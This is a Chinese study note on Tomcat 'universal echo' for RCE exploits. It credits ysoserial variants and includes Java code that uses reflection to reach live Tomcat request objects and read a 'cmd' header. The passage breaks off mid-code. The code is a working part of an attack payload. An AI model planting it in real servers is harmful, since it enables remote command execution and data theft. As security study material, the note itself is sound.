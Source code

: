 # Tomcat通用回显学习笔记

##  前言

RCE回显技术在20年突然火爆全网，这里学习跟进一下。看了很多大佬分析技术文章和实现方法可谓是百花齐放，但情有独钟的一种方法是来着**zema1/ysoserial**里面中的回显技术。Tomcat全版本都能实现回显，和其他大佬的方式不一样点是直接中`Thread`入手。但目前没看到对此方法的分析，这里斗胆写下自己的一些看法，如有错误还请斧正。

 所以的源码、环境都已经上传至https://github.com/SummerSec/JavaLearnVulnerability

---

## 回显代码赏析

先贴出代码，大致上分析一下代码。代码来着https://github.com/feihong-cs/Java-Rce-Echo，代码本质上是和**zema1/ysoserial**的一样，只是换个方法。不难看出代码用了大量的反射，异常处理面对不同版本Tomcat可能出现的情况，与if语句不同，异常处理更加直接点，直接尝试两种方法面对不同情况。

```java
	boolean flag = false;
    ThreadGroup group = Thread.currentThread().getThreadGroup();
    java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
    f.setAccessible(true);
    Thread[] threads = (Thread[]) f.get(group);
    for(int i = 0; i < threads.length; i++) {
        try{
            Thread t = threads[i];
            if (t == null) continue;
            String str = t.getName();
            if (str.contains("exec") || !str.contains("http")) continue;
            f = t.getClass().getDeclaredField("target");
            f.setAccessible(true);
            Object obj = f.get(t);
            if (!(obj instanceof Runnable)) continue;
            f = obj.getClass().getDeclaredField("this$0");
            f.setAccessible(true);
            obj = f.get(obj);
            try{
                f = obj.getClass().getDeclaredField("handler");
            }catch (NoSuchFieldException e){
                f = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
            }
            f.setAccessible(true);
            obj = f.get(obj);
            try{
                f = obj.getClass().getSuperclass().getDeclaredField("global");
            }catch(NoSuchFieldException e){
                f = obj.getClass().getDeclaredField("global");
            }
            f.setAccessible(true);
            obj = f.get(obj);
            f = obj.getClass().getDeclaredField("processors");
            f.setAccessible(true);
            java.util.List processors = (java.util.List)(f.get(obj));
            for(int j = 0; j < processors.size(); ++j) {
                Object processor = processors.get(j);
                f = processor.getClass().getDeclaredField("req");
                f.setAccessible(true);
                Object req = f.get(processor);
                Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req, new Object[0]);
                str = (String)req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"cmd"});
                if (str != null && !str.isEmpty()) {
```